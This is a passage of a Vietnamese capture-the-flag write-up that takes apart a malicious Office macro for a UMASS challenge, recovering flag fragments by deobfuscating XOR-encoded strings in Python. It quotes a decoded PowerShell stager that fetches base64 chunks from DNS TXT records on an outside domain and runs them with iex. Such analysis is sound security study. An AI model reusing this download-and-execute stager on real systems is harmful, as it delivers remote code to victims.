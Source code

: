 - Về cơ bản ta chỉ cần chạy 2 function này là ta sẽ có được flag , mình có nhờ GPT để chuyển đổi cũng như là 1 chút chỉnh sửa để code từ VBScript sang python.
```
def dgfbhsrjtyghsfgbn(betrhyhzdfgbvfadgh, tgdrhnatrhathgdf):
    drtgvhsrtghgfhng = 127
    for i in range(tgdrhnatrhathgdf):
        betrhyhzdfgbvfadgh[i] = chr(betrhyhzdfgbvfadgh[i] ^ drtgvhsrtghgfhng)
        drtgvhsrtghgfhng = ((drtgvhsrtghgfhng + 5) ^ 105)
    return ''.join(betrhyhzdfgbvfadgh)

def flagpart():
    bnirujwtnbiwrbn = [42, 160, 218, 154, 244, 190, 212, 137, 152, 130, 186, 138]
    return dgfbhsrjtyghsfgbn(bnirujwtnbiwrbn, 12)

# Thử nghiệm hàm flagpart
print(flagpart())

```
- Chạy code thì ta có được part 1 của flag.
```
$ python3 tools.py
UMASS{wH7_1s
```
##### Part 2.
- Nhìn kỹ 1 tí thì ta sẽ thấy có đoạn base64 ở phía dưới decode nó ra được đoạn script sau.
```
$b64 = ""

for ($i=1;$i -le 7;$i++) {
    $temp = (nslookup -q=txt -timeout=3 $i'.americanvegtables.com')[-1] -replace '"','' -replace '\s',''
    $b64 += $temp
};

# _d0cM_57iLL_

iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64))))
```
- Part 2 của flag nó đã được comment lại r.
##### Part 3
- hãy nhìn vào đoạn script ta có thể thấy 1 domain name `americanvegtables.com` và cả khi chạy thử macros nó cũng có hiển thị các sudomian tương tự.
![1713901074021](image/writeup/1713901074021.png)